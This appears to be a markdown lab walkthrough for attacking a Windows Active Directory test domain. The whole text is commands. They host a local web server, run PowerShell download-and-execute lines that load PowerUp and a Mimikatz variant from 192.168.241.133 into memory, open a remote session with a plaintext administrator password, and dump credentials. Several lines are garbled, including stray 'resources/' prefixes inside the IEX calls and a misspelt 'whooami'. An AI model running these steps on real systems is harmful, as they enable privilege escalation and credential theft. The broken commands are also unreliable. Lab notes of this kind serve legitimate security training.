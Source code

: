 # Exploitation

## Privilege Escalation

### CLient side
```
powershell
```
```
cd Z:\
``` 
```
python.exe -m http.server 8989
```

### Server side 

```
whooami
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\worker01\Documents> IEX (resources/New-Object net.webclient).DownloadString(resources/"http://192.168.241.133:8989/Powerup.ps1")
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\worker01\Documents> Invoke-AllChecks -Verbose
```

## Dump Credentials
```
exit
```
```
PS C:\Windows\system32> Enter-PSSession -ComputerName winserv2019forest.ad.forest.corp -Credential Administrador
# Passw0rd1!
```
```
[winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> whoami
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> IEX (resources/New-Object net.webclient).DownloadString(resources/"http://192.168.241.133:8989/Invoke-Mimi.ps1")
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> Invoke-Mimi -DumpCreds
```

![mimi](resources/DumpCreds.png)
